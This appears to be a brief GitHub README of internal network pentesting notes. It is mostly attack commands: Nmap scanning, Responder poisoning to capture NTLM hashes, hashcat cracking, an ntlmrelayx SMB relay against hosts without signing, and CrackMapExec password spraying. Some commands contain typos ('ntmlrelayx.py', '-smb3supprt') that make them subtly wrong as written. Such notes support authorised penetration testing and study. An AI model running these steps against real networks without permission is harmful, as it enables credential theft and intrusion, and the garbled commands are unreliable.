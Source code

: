 # Internal Network Pentesting
Notes for Internal Network Pentesting 


###  Nmap

```bash
nmap -sn 192.168.1.1/24
```
```bash
nmap -sV -sC -A -p- IP-Address
```

###  Responder

```bash
responder -I <interface> -rdw
```
- After capturing NTLM Hash (copy the captured hash into .txt format) copy full hash from username to end of the hash.

```bash
hashcat -m 5600 hash.txt /path/to/wordlist.txt
```

### SMB Relay attack
- Make sure you turn off the SMB and HTTP from responder configuration

```bash
nano /etc/responder/Responder.conf
```
- For this attack you need to have ntml hash, use can use responder for capture hash.
- Scanning for Signing disabled machines, make sure you save the host example : TargetHost.txt
```bash
nmap --script=smb2-security-mode.nse -p 445 192.168.1.1/24,134 -Pn --open | tee -a target.txt
```

- Use ntlmrelayx
```bash
python3 ntmlrelayx.py -tf /path/to/target_host_nmap_above -smb3supprt
```

### CrackMapExec 

```bash
crackmapexec smb "10.0.9.0/24" -u "FirstName.LastName" -p /path/to/password.txt
```





